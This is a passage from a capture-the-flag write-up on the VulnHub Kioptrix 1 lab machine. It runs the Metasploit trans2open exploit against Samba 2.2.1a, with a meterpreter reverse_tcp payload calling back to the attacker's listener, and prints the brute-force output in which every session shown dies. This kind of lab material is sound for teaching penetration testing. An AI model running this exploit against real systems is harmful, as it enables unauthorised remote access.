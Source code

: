 finally we came to know that  version info ```Samba 2.2.1a```.  search on google any public exploit available.  

{{< img src="/images/vulnhub/kioptrix1/3.png" alt="image alt" width="600px" position="center" >}}

```bash
[msf](Jobs:0 Agents:0) auxiliary(scanner/smb/smb_version) >> use exploit/linux/samba/trans2open
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp

[msf](Jobs:0 Agents:0) exploit(linux/samba/trans2open) >> set RHOST 192.168.132.129
RHOST => 192.168.132.129

[msf](Jobs:0 Agents:0) exploit(linux/samba/trans2open) >> show options 

Module options (exploit/linux/samba/trans2open):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.132.129      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   139                  yes       The target port (TCP)

Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.132.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce

[msf](Jobs:0 Agents:0) exploit(linux/samba/trans2open) >> run

[msf](Jobs:0 Agents:0) exploit(linux/samba/trans2open) >> exploit

[*] Started reverse TCP handler on 192.168.132.128:4444 
[*] 192.168.132.129:139 - Trying return address 0xbffffdfc...
[*] 192.168.132.129:139 - Trying return address 0xbffffcfc...
[*] 192.168.132.129:139 - Trying return address 0xbffffbfc...
[*] 192.168.132.129:139 - Trying return address 0xbffffafc...
[*] Sending stage (989032 bytes) to 192.168.132.129
[*] 192.168.132.129 - Meterpreter session 1 closed.  Reason: Died
[-] Meterpreter session 1 is not valid and will be closed
[*] 192.168.132.129:139 - Trying return address 0xbffff9fc...
[*] Sending stage (989032 bytes) to 192.168.132.129
[*] 192.168.132.129 - Meterpreter session 2 closed.  Reason: Died
[*] 192.168.132.129:139 - Trying return address 0xbffff8fc...
[*] Sending stage (989032 bytes) to 192.168.132.129
[*] 192.168.132.129 - Meterpreter session 3 closed.  Reason: Died
[-] Meterpreter session 3 is not valid and will be closed
[*] 192.168.132.129:139 - Trying return address 0xbffff7fc...
[*] Sending stage (989032 bytes) to 192.168.132.129
[*] 192.168.132.129 - Meterpreter session 4 closed.  Reason: Died

```
